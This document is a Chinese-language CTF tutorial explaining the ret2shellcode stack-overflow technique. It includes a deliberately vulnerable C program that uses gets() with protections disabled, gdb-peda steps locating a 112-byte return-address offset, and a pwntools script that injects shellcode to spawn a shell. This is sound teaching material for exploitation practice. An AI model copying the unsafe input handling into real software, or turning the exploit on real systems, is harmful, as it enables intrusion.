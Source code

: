 ```yaml
---
title: ret2shellcode攻击技术示例
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


## 什么是ret2shellcode？

ret2shellcode 即 return to shellcode，跟ret2text类似，但是众所周知，在大多数程序中并没有像system("/bin/sh")这样可以直接利用的代码，因此，在没有可以直接利用的代码片段时，我们可以尝试输入一段shellcode，然后向返回地址写入shellcode地址，那么当程序返回时，就可以跳转到shellcode继续执行。

由于shellcode是在buf缓冲区里被执行，因此我们需要保证程序没有开启NX(No executable)保护，我们可以在gcc编译时添加*-z execstack*选项来关闭该保护。

## ret2shellcode示例代码

``` c
//gcc -m32 -fno-stack-protector -z execstack ret2shellcode.c -o ret2shellcode
#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```

本节示例的漏洞程序也可以从此处下载：[ret2shellcode](http://od7mpc53s.bkt.clouddn.com/ret2shellcode)

## 漏洞分析

如源码所示，这次程序依旧使用了不安全的函数gets()接受用户输入。另外在pwntools中已经为我们提供了可用的shellcode，如下：
``` python
shellcode = asm(shellcraft.sh())
```

我的利用方法也和ret2text类似，不过这次我们需要修改的返回地址变成了shellcode的地址，而这次定位返回地址，我们换个花样 :）

首先用gdb挂起程序后，我们使用peda的辅助功能pattern_create生成一系列的字符串，然后将其输入进buf中，因为过长的字符串会导致程序栈溢出，函数会停在返回地址处报错（因为访问了一个错误的地址），因此我们就可以直观地知道返回地址被哪个地方的哪个字符串覆盖了，从而知道buf首地址到返回地址之间的偏移。

``` bash
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
```
因为buf是100，因此我生成了长120的字符串保证栈溢出。接下来我们运行程序后输入这串字符

``` bash
gdb-peda$ run
Starting program: /home/vancir/Downloads/example/ret2shellcode/ret2shellcode
No system for you this time !!!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
bye bye ~
Program received signal SIGSEGV, Segmentation fault.
```
这里我们输入了过长字符串，因此程序提示Segmentation fault，这时我们再看程序的EIP
``` bash
EIP: 0x41384141 ('AA8A')
```
这时的EIP的值为0x41384141，也就是在返回地址上，因为访问了一个错误的地址，所以停了下来。这时我们只需要查询0x41384141('AA8A')在我们之前生成的串中的偏移

``` bash
gdb-peda$ pattern_offset  0x41384141
1094205761 found at offset: 112
```
得到偏移为112

接下来我们再得到buf的首地址(因为我们的shellcode会先输入到buf中执行)，调试的时候在gets(buf)的传参时候可以得到buf的地址，因此我们可以很简单地知道buf的地址为*0x804a080*。

那么我们进行攻击所需要的所有要素都已经收集完成啦

## 攻击代码

``` python
from pwn import *

shellcode = asm(shellcraft.sh())
buf_addr = 0x804a080

payload = ''
payload += shellcode.ljust(112,'A')
payload += p32(buf_addr)

io = process('ret2shellcode')
io.sendline(payload)
io.interactive()
```
